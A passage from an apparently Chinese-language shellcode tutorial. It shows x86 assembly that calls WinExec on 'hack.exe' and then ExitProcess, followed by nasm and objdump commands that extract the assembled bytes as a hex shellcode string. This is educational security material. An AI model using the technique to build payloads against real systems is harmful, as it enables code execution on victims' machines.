     
    xor ecx, ecx          ; clear eax register
    push ecx              ; string terminator 0x00 for "hack.exe" string
    push 0x6578652e       ; exe. : 6578652e
    push 0x6B636168       ; kcah : 6B636168
    mov ebx, esp          ; save pointer to "hack.exe" string in eax
    inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
    push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
    push ebx              ; lpcmdLine - push string address stack # 1st argument
    call eax              ; Call the WinExec Function
    
    ; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
     xor ecx, ecx          ; clear eax register
     mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
     shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
     push ecx                ;  sse : 00737365
     push 0x636F7250         ; corP : 636F7250
     push 0x74697845         ; tixE : 74697845
     mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
     call findFunctionAddr   ; After Return EAX will = &ExitProcess
    
    ; Call ExitProcess(ExitCode)
     xor edx, edx
     push edx                ; ExitCode = 0
     call eax                ; ExitProcess(ExitCode)
    ```

  + 将该反汇编文件通过`nasm`工具进行编译并用`objdump`工具变为可执行代码

    ```bash
    nasm -f win32 test.asm -o test.o
    for i in $(objdump -D test.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
    ```

    ![](./image/test.png)
